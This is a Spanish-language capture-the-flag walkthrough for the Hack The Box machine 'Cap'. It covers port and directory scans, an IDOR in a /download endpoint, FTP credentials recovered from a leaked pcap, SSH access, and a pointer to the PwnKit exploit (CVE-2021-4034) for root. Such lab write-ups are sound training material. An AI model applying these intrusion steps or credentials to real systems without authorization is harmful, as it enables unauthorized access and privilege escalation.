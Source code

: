```yaml
---
layout: post
title: "Cap"
date: 2024-04-05 17:04:54 +0100
tags: ["IDOR", "CVE"]
os: "Linux"
level: "Easy"
image: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/70ea3357a2d090af11a0953ec8717e90.png"
---
```


```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-15 11:13 CEST
Nmap scan report for 10.10.10.245
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Fri, 15 Aug 2025 09:13:51 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|     <SNIP>
```

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u "http://10.10.10.245/FUZZ"

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.245/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

data                    [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 53ms]
ip                      [Status: 200, Size: 17452, Words: 7275, Lines: 355, Duration: 80ms]
                        [Status: 200, Size: 19386, Words: 8716, Lines: 389, Duration: 48ms]
capture                 [Status: 302, Size: 220, Words: 21, Lines: 4, Duration: 5112ms]
                        [Status: 200, Size: 19386, Words: 8716, Lines: 389, Duration: 65ms]
```

Entrar en la web y clicar en el botón "Security Snapshot...", luego en Download.

![](/assets/machines/cap.htb/images/329c78bc-b05b-4685-8c54-4fd5a48724d0.webp)

La petición que se hace es al endpoint /download/N

**Burp Suite Intruder**

Con Burp realizamos un ataque de Fuzzing.

```
GET /download/§DOWNLOAD§ HTTP/1.1
Host: 10.10.10.245
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.10.245/data/3
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache

```

El payload 1 y 2 nos pertenecen a nosotros, pero el payload 0 es de otro usuario.
![](/assets/machines/cap.htb/images/14fa71b4-0aea-463e-a848-3ef5198ff6ba.webp)

Abrimos el 0.pcap descargado con Wireshark. Se muestra una conexión FTP con credenciales validas `nathan:Buck3tH4TF0RM3!`.
![](/assets/machines/cap.htb/images/9628a135-076b-4829-9187-41abbb95cdb9.webp)

**Conexión FTP.**

```
ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:user): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

**Conexión SSH**

```
ssh nathan@10.10.10.245
```

## Escalado de Privilegios

**SUID**

```
nathan@cap:/tmp$ find / -perm /4000 -type f -exec ls -l {} \; 2>/dev/null
<SNIP>
-rwsr-xr-x 1 root root 31032 Aug 16  2019 /usr/bin/pkexec
```

**CVE-2021-4034**: https://github.com/ly4k/PwnKit

![](/assets/machines/cap.htb/images/17274634-0ffb-4b38-a667-15c20b357015.webp)
